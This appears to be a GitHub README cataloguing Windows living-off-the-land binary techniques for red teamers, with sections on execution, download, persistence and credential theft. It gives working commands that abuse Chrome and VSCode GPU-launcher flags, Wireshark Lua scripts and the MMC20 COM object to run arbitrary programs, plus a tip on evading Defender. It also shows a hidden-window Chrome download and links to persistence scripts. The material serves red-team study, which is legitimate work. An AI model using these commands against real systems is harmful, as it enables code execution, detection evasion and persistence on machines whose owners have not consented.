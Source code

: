 # Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````

### Wireshark
````
& 'C:\Program Files\Wireshark\tshark.exe' -X lua_script:'<path of lua script>'
& 'C:\Program Files\Wireshark\wireshark.exe' -X lua_script:'<path of lua script>' (Wireshark also opens while executing)

lua file content
-- mention the binary that needs to be executed
 os.execute('C:\\Windows\\notepad.exe')
 ````
### MMC
````
**Required powershell with administrative privilege.** Avoid opening cmd.exe as it gets alerted in Defender.
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application"))
$com.Document.ActiveView.ExecuteShellCommand("C:\windows\system32\notepad.exe",$null,$null,"7")
 ````
 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Persistence/Lnk%20Persistence.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Lnk%20Persistence.ps1)

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Credential theft

````
[BurpSuite password for Proxy connections] 

